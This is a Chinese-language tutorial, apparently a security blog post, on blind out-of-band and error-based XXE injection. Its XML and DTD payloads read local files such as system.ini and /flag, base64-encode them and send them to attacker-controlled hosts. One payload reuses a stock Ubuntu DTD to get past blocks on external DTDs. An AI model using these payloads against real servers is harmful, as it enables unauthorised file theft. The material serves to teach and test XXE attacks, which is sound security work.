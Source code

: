 即blind oob XXE ——-oob out of band 带外通信

### 利用

**可以访问外网服务器的DTD**

构造上传的xml文件

```
<?xml version="1.0" encoding="UTF-8" ?><!DOCTYPE data SYSTEM "http://192.168.0.104/ .dtd"><data>&send;</data>
```

构造外带的dtd文件

```
<!ENTITY % win SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C://Windows//system.ini"><!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://192.168.248.171:1337/?%win;'>">%wrapper;
```

上述代码用到了php为协议讲需要外带的数据进行base64编码，以避免一些敏感字符引起的错误。

为什么需要使用外带dtd实体

因为内部实体中使不允许使用参数实体的，但在外带实体中则不受此限制

为什么需要使用实体嵌套

因为同级的参数实体不能互相解析，嵌套的第二层需要对%进行转义成为&#x25，不然可能出现问题，三层嵌套则需对& % “ ’等进行转义。在实体的申明中不能引用参数实体，这一w3c标准被xml解析器的支持不是很好，如果使二层嵌套，大部分xml解析器都能成功识别，但如果在三层前逃离里面使用了引用了参数实体，那么很多xml解析器就不能成功地识别，于是乎，我们就可以不使用外带dtd来进行注入，而只需使用内部dtd即可。

`参数实体只能在DTD中使用，普通实体可以在DTD中引用，可以在XML中引用，可以在声明前引用，还可以在实体声明内部引用。`

在内部DTD集中，参数实体的引用不能存在于标记的声明中。这并不适用于外部的参数实体中。

**不可以访问外网服务器DTD**

如果安全过滤较为严格，当前解析器被禁止了访问外网服务器的DTD，那么我们可以利用本地服务器中默认存在的DTD文件，通过重写其中的实体来构造我们需要的实体。

再unbantu中就存在这么一个文件：/usr/share/yelp/dtd/docbookx.dtd

```
<?xml version="1.0"?><!DOCTYPE message [    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">    <!ENTITY % ISOamso ' //此为预置的实体        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;http://myip/?&#x25;file;&#x27;>">        &#x25;eval;        &#x25;send;    '>    %remote;]><message>1234</message>
```

## 基于报错的BLIND XXE

基于报错的原理和OOB类似，OOB通过构造一个带外的url将数据带出，而基于报错是构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。 **`类似于sqli中的报错注入`**

**引入网络文件**

xml

```
<?xml version="1.0"?><!DOCTYPE message [    <!ENTITY % remote SYSTEM "http://blog.szfszf.top/xml.dtd">    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///flag">    %remote;    %send;]><message>1234</message>
```
